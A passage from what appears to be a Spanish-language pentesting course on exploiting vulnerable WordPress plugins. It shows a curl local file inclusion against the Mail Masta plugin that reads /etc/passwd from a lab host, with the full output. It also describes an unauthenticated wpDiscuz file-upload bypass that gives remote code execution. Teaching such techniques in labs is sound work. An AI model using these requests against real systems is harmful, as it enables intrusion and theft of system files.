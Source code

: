 Como podemos ver, el parámetro `pl` nos permite incluir un archivo sin ningún tipo de validación o sanitización de entrada. Usando esto, podemos incluir archivos arbitrarios en el servidor web. Vamos a explotarlo para recuperar el contenido del archivo `/etc/passwd` utilizando `cURL`.

```r
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
```

### Vulnerable Plugins - wpDiscuz

[wpDiscuz](https://wpdiscuz.com/) es un plugin de WordPress para comentarios mejorados en publicaciones de página. En el momento de escribir esto, el plugin tenía más de [1.6 millones de descargas](https://wordpress.org/plugins/wpdiscuz/advanced/) y más de 90,000 instalaciones activas, lo que lo convierte en un plugin extremadamente popular que tenemos una muy buena posibilidad de encontrar durante una evaluación. Basado en el número de versión (7.0.4), este [exploit](https://www.exploit-db.com/exploits/49967) tiene una muy buena posibilidad de obtener ejecución de comandos. El núcleo de la vulnerabilidad es un bypass de carga de archivos. wpDiscuz está destinado solo a permitir adjuntos de imágenes. Las funciones de tipo MIME del archivo podrían ser eludidas, permitiendo a un atacante no autenticado subir un archivo PHP malicioso y obtener ejecución remota de código. Más sobre el bypass de las funciones de detección de tipo MIME se puede encontrar [aquí](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/).
